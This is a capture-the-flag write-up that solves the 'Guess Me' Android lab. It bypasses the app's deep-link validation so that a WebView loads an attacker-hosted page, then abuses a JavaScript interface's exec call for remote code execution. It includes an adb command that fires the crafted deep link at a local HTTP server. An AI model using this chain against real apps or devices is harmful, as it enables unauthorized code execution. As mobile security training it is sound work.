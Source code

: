 # Guess Me
> Exploit a Deep Link Vulnerability for Remote Code Execution: Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, allowing you to execute remote code and gain unauthorized access.

# Dist
`[your-uname.ovpn]` `[com.mobilehackinglab.guessme.apk]`

## About the Challenge
Given 2 files namely `[your-uname.ovpn]` `[com.mobilehackinglab.guessme.apk]`

## How to solve?
I first run the vpn with:
```
openvpn test.ovpn
```
after that I can try to decompile in jadx-gui
![img0](img/0.png)

First, I check the AndroidManifest.xml file to check permissions etc.

There are several important things here, namely:
```
<uses-sdk
    android:minSdkVersion="24"
    android:targetSdkVersion="34"/>
<uses-permission android:name="android.permission.INTERNET"/>
<application>
...snippet...
    <activity
        android:name="com.mobilehackinglab.guessme.MainActivity"
        android:exported="true">
        <intent-filter>
            <action android:name="android.intent.action.MAIN"/>
            <category android:name="android.intent.category.LAUNCHER"/>
        </intent-filter>
    </activity>
    <activity
        android:name="com.mobilehackinglab.guessme.WebviewActivity"
        android:exported="true">
        <intent-filter>
            <action android:name="android.intent.action.VIEW"/>
            <category android:name="android.intent.category.DEFAULT"/>
            <category android:name="android.intent.category.BROWSABLE"/>
            <data
                android:scheme="mhl"
                android:host="mobilehackinglab"/>
        </intent-filter>
    </activity>
```
result:
1. using minsdkversion: 24
2. requires internet permission
3. there are 2 activities, namely .MainActivity and .WebviewActivity. .MainActivity will be run at launch and is the main, then .WebviewActivity will be run when getting a url sent to android because of the android.intent.action.VIEW permission and also has permission to access the android.intent.category.BROWSABLE browser.

The second step, I tried to check the main activity, namely `.MainActivity`
actually this is a regular activity that I might think of to bypass compare valid numbers to get secretNumber.

![img3](img/3.png)

after checking there is nothing that can be bypassed, maybe a func or something else, this is just a comparison of true or false with if else. Okay, even if I can get secretNumber here, there is no func that supports execution, why execution? because the question asks to do rce (remote code execution).

![img4](img/4.png)

I tried to check again in more depth, okay actually here there is a function that will be run when I click the info button, that function will direct to access .WebviewActivity

![img5](img/5.png)

The third step, checking second activity .WebviewActivity
when created .WebviewActivity will run 2 functions that might be useful here, namely
![img6](img/6.png)
![img7](img/7.png)
loadAssetIndex() will direct the default url is file:///android_asset/index.html if the webView exists which has actually been defined in res/layout/activity_web.xml
![img8](img/8.png)

then the handleDeepLink() function will check if isValidDeepLink(uri)=true then run loadDeepLink(uri) which will open the uri. ![img9](img/9.png)

Then how to make it true?
![img10](img/10.png)

There are 2 parts of the conditioning, namely for the first the main domain must be the mhl / https protocol and the host is mobilehacking.lab, then the second part must contain the url parameter and must contain the value mobilehackinglab.com

Okay, if I succeed in directing it to open the uri that I gave, then how do I get rce?
![img11](img/11.png)
It turns out there is a class that I am really looking forward to. There is a func in the JavaScriptInterface class that directs the exec func for the Time param. Okay, now I understand the flow

1. Send the uri to Android that uses the mhl or https protocol and the mobilehacking.lab host
2. Add a query string with the param name = url and the value mobilehacking.com
3. And use the getTime func to input the command for rce.

actually i can see my html template in assets/index.html, i just change the value to the required command, and deploy with python simple http server.

![img12](img/12.png)

![img13](img/13.png)

I run the webserver

![img14](img/14.png)
also run adb to connect to the android
![img15](img/15.png)

this is the adb command to send our uri
```
adb shell am start -a "android.intent.action.VIEW" -d "mhl://mobilehackinglab?url=http://10.11.3.4:8181/index.html?test=mobilehackinglab.com""

```
Alhamdulillah, here are the results

![img16](img/16.png)

```
u0_a111
```
